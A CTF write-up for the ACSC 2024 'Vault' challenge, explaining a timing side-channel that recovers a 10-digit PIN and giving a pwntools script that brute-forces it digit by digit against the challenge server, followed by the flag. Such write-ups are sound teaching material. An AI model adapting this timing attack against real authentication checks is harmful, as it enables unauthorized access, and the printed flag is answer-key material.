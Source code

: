 ```yaml
---
title: ACSC - [Vault]
tags:
  - CTF
  - Write-up
  - acsc
  - hardware-hacking
  - side-channel
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-04-01 at 21.54.50.png]]
# Prologue
An online CTF competition by ACSC, this competition is qualification for competing in ICC for ASIA category.

![[dist-vault-bc8867dde0e36ae6cbd0e4c82707e2b78e4e5233.tar.gz]]
# Write Up
## TL;DR Solution

Exploiting side-channel attack to guess the PIN, if the PIN is correct it will delayed 100000ms.
## Detailed Explanation

### Initial Analysis

We were given a binary and a configuration server.

If we connecting into server, we can see that we only have a permission into executing the binary
![[Screenshot 2024-04-22 at 18.18.38.png]]

Looking at the `main` function, we can see that it will check the length of input, and then for every input characters will be xor-ed with the key. If it wrong, it will delayed for 100000ms.
![[Screenshot 2024-04-01 at 22.04.16.png]]

We can check all the possibility number 0-9. And then pick few samples and calculate the average. After that, check which numbers that get the longest time to execute.

Fortunately, the configuration already has a [time](https://man7.org/linux/man-pages/man1/time.1.html) command. We can make use of this command to get the time needed for execute without problem, even if we had a bad connection.
### Exploitation

```python
from pwn import *
import re 

p = remote('vault.chal.2024.ctf.acsc.asia', 9999)

TRIES = 10
KNOWN = ""

while len(KNOWN) != 10:
    times = {
        0: [],
        1: [],
        2: [],
        3: [],
        4: [],
        5: [],
        6: [],
        7: [],
        8: [],
        9: [],
    }
    for x in range(0, 10):
        for y in range(TRIES):
            p.sendlineafter('user@NSJAIL:/home/user$ ', "time ./chall")
            a = p.sendlineafter(b'Enter your PIN: ', f"{KNOWN}{str(x)*(10-len(KNOWN))}")
            p.recvline()
            p.recvline()
            p.recvline()
            a = p.recvline().decode().strip()
            r = re.compile("real\s+0m\d.\d+s")
            a = r.search(a).group().replace("real\t0m", "").replace("s", "")
            print(x, a)
            times[x].append(float(a))
    for x in range(10):
        avg = sum(times[x])/TRIES
        times[x] = avg
    m = str(max(times, key=times.get))
    print(m)
    KNOWN += m
    print(KNOWN)

avg_time = []

print(max(times, key=times.get))
```

After letting run for awhile, we get the PIN and the flag too.
![[Screenshot 2024-04-01 at 23.03.42.png]]

FLAG: `ACSC{b377er_d3L4y3d_7h4n_N3v3r_b42fd3d840948f3e}`







